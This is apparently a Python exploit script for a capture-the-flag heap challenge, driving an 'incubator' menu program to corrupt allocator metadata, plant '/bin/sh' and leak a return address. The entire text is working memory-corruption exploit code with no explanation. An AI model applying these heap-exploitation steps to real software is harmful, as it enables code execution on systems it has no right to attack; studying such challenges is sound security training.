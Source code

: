 ```python
class heap():
    c = 0
    page = 1
    smp = 2
    fixed = 3

def add(idx, size, heap_idx, content):
    ru("> ")
    sl("0")
    ru("Which incubator? ")
    sl(str(idx))
    ru("Size? ")
    sl(str(size))
    ru("> ")
    sl(str(heap_idx))
    ru("Label: ")
    sl(content)

def dele(idx, heap_idx):
    ru("> ")
    sl("1")
    ru("Which incubator? ")
    sl(str(idx))
    ru("> ")
    sl(str(heap_idx))

def show(idx):
    ru("> ")
    sl("2")
    ru("Which incubator? ")
    sl(str(idx))

def resize(idx, size, heap_idx):
    ru("> ")
    sl("3")
    ru("Which incubator? ")
    sl(str(idx))
    ru("size: ")
    sl(str(size))
    ru("> ")
    sl(str(heap_idx))

def bye():
    ru("> ")
    sl("4")

if __name__ == "__main__":
    add(0, 0x40, heap.fixed, '\x00'*0x10)
    add(1, 0x40, heap.fixed, '\x11'*0x10)
    resize(1, 0, heap.fixed)
    dele(0, heap.smp)
    dele(1, heap.smp)

    add(2, 0x40, heap.fixed, p64(0x1008448))
    add(3, 0x40, heap.smp, '/bin/sh\x00')

    payload = p64(0) + p64(0x1008590) + b'\x00\x00' # fba.end_index  fba.bufffer.ptr  fba.buffer.len
    add(4, 0x40, heap.smp, payload)
    show(4)
    rv(0x18)
    ret_addr = u64(rv(8)) - 0x110
    lg("ret addr", ret_addr)
```